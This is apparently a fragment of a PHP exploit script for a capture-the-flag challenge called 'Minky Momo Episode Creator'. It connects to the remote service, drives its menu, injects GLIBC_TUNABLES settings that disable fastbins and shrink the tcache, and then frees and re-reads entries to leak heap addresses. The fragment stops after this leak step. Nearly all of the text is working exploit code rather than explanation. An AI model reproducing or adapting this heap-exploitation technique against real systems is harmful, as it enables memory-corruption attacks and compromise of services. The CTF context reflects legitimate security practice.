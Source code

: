 ```php
	fwrite($fp, "3\n");
	expectLine($fp, "");

	expectLine($fp, "You get to display an episode.");
	expectLine($fp, "");

	expectLine($fp, "Which index would you like to display an episode from?");
	fwrite($fp, "$idx\n");
	expectLine($fp, "");

	expect($fp, "Episode plot: ");
	$line = line($fp);

	expectLine($fp, "");
	expectLine($fp, "Episode displayed.");
	expectLine($fp, "");

	return $line;
}

function restart($fp, string $payload)
{
	if(4 !== (int)$payload)
		throw new Exception("Wrong payload");

	menu($fp);
	fwrite($fp, "$payload\n");
	expectLine($fp, "");

	expect($fp, "Using your minky stick, you ressurrected as the parent's");
	expectLine($fp, " real child now!.");
	expectLine($fp, "");
}

printf("[*] Opening connection\n");
$time = microtime(true);

$fp = fsockopen(HOST, PORT);

if(!LOCAL)
	expectLine($fp, "== proof-of-work: disabled ==");

expectLine($fp, "Welcome to Minky Momo Episode Creator.");
expectLine($fp, "");

printf("[+] Done in %f seconds\n", microtime(true) - $time);
printf("\n");

$tunables = [
	"glibc.malloc.tcache_count=2", // at least 2 to make a list
	"glibc.malloc.mxfast=1", // we want no fastbins
];
$env = "GLIBC_TUNABLES=" . implode(":", $tunables);
//$env = "LD_DEBUG=help";

// Leak
add($fp, 0, $env);
add($fp, 1, $env);

del($fp, 1);
del($fp, 0);

$addr = [show($fp, 0), show($fp, 1)];
```